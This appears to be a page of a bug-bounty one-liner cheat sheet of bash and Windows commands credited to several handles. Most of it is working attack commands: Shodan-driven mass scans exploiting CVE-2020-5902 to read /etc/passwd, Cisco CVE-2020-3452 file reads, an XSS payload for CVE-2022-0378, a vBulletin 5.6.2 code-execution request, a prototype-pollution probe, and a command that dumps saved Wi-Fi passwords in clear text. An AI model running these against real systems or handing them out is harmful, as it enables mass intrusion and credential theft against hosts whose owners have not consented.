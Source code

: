 
```bash
cat FILE.txt | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep --color "VULNERABLE" > output.txt
```

### Passowrd Dump 
```bash
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @if "%j" NEQ "" ((echo SSID: %j & netsh wlan show profiles %j key=clear | findstr "Key Content") & echo.)
```

### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### CVE-2020-3452
> @vict0ni

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

### CVE-2022-0378
> @7h3h4ckv157

```bash
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Extract Endpoints from swagger.json
> @zer0pwn

```bash
curl -s https://HOST/v2/swagger.json | jq '.paths | keys[]'
```

